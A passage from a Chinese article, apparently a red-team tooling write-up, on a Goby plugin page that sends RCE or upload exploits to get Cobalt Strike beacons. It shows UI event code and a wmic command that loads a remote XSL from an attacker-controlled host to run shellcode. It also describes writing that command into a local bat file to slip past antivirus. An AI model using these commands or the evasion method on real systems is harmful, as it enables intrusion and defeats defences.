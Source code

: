 [![](https://p4.ssl.qhimg.com/t01216dd94a0e65d3cd.png)](https://p4.ssl.qhimg.com/t01216dd94a0e65d3cd.png)

**<a class="reference-link" name="2.4.2%20index.html%20%E7%94%A8%E6%9D%A5%E7%94%9F%E6%88%90%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E4%B8%8A%E7%BA%BF%20CS"></a>2.4.2 index.html 用来生成漏洞利用上线 CS**

这个文件主要用来，调用 extension.js 文件中的 Gexp 类，获取 PoC 的参数进行更改后调用 EXP 进行发包利用，其中利用方式有 RCE 和 upload 两种，文件形式有 php，asp，jsp三种(以后会加入 aspx)，源码中有具体的注释。

此处因为是子页面使用引入模块时必须加入 parent

```
let fs = parent.require('fs');
let goby = parent.goby;
```

同时如果你使用 exec 函数调用 cmd 也是 Goby.exe 进行调用的，生成文件会在 Goby 的根目录下面，不指定目录写文件也是一样。

初次写 js 的师傅注意，下拉框因为是 div 修饰过的，不能再使用原生的事件进行监听，要使用 layui 的语法进行 select 监听事件。

```
//select监听事件开始
//layui的监听事件和原生select不一样

layui.use(['form'], function () `{`
    var form = layui.form;

    //下拉框改变事件开始
    //layui的调用写法，因为select采用的是layui的样式使用要用它的写法不能用原生的
    //id为vlul的下拉框的值改变后触发
    form.on('select(vlul)', function (data) `{`
        //调用函数主要用来更新textarea中的内容
        changeE();
    `}`);
    //id为txt的下拉框的值改变后触发
    form.on('select(txt)', function (data) `{`
        //调用函数主要用来更新textarea中的内容
        changeE();
    `}`);
    //下拉框改变事件结束


`}`);
//select监听事件结束
```

以 php 为例，漏洞利用 upload 是上传写入 php 代码执行 cmd 调用 wmic 远程加载运行 shellcode，RCE 是默认可以执行系统 dos 命令的情况下，调用 wmic 进行远程加载运行 shellcode (如果是代码执行漏洞还需要自己添加 system() 之类的调用 cmd 的函数)

最开始的 xsl 文件有了简单的免杀后，能不能成功上线还得看最后一步 wmic 的命令，正常 wmic 命令是 wmic os get /format:”[http://yourIP/a.xsl](http://yourIP/a.xsl)“

不用想，这肯定会被某全家桶拦截，所以我们必须绕过拦截，那么使用用到烂的 echo 加管道符 | 来试试

echo os get /format:”[http://yourIP/a.xsl”|wmic](http://yourIP/a.xsl%22%7Cwmic)

本地 cmd 执行不会被拦，但是 Upload 利用时候，写入页面后，再加载页面时候会被拦，这意外么？毫不意外。但是这里有趣的是，其实这里绕过了但是没有完全绕过，根据高级的食材往往只需简单烹饪这一道理，所以我决定简单烹饪，将它写入 bat 文件中本地执行，最后发现某全家桶毫无拦截。所以页面中不调用 wmic，而是把它写入 bat，本地去执行 wmic 这样就不会被拦截。
